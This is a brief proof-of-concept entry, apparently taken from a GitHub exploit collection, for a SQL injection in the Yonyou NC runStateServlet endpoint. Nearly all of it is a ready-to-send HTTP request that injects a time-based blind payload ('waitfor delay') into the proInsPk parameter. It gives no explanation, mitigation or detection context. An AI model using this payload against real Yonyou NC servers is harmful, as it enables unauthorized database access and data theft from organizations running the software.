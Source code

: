 # yonyounc_runStateServlet_sqli

from: https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BNC-runStateServlet%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

2024.4.15@2

```
GET /portal/pt/servlet/runStateServlet/doPost?pageId=login&proInsPk=1'waitfor+delay+'0:0:6'-- HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19

```

